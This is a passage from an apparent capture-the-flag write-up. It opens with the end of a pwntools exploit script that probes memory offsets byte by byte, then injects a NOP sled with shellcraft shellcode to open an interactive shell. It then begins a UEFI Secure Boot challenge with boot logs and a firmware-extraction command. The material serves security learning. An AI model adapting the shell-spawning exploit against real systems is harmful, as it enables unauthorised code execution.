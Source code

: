 ```python
        print(i, len(shellcode))
        r.sendlineafter(":","c")
        r.sendlineafter(":","1")
        r.sendlineafter(":","s")
        r.sendlineafter(":",str(1))
        r.sendlineafter(": ","-"+str(idx*0x1000+0x4000-i))
        r.send("a")
        if r.recvn(1) == shellcode[i]:
            break
r.sendlineafter(":","c")
r.sendlineafter(":","1")
r.sendlineafter(":","g")
r.send("\x90"*0x10+asm(shellcraft.sh()))
r.interactive()

```

### Secure Boot
The goal of the challenge is very clear, just boot the machine successfully. But this machine was enabled Secure Boot Configuration, thus if boot it directly, we will get this messege:

```
UEFI Interactive Shell v2.2
EDK II
UEFI v2.70 (EDK II, 0x00010000)

...

Booting...
Script Error Status: Security Violation (line number 5)

```
Try some hotkey like `ESC`, it will enter the BIOS interface and ask for the password:

```
BdsDxe: loading Boot0000 "UiApp" from Fv(7CB8BDC9-F8EB-4F34-AAEA-3EE4AF6516A1)/FvFile(462CAA21-7614-4503-836E-8AB6F4662331)
BdsDxe: starting Boot0000 "UiApp" from Fv(7CB8BDC9-F8EB-4F34-AAEA-3EE4AF6516A1)/FvFile(462CAA21-7614-4503-836E-8AB6F4662331)
****************************
*                          *
*   Welcome to the BIOS!   *
*                          *
****************************

Password?

```
* Use `uefi-firmware-parser` to extract dll files from `OVMF.fd`:

```shell=
uefi-firmware-parser ./OVMF.fd -e

```
We'll get several dll files:
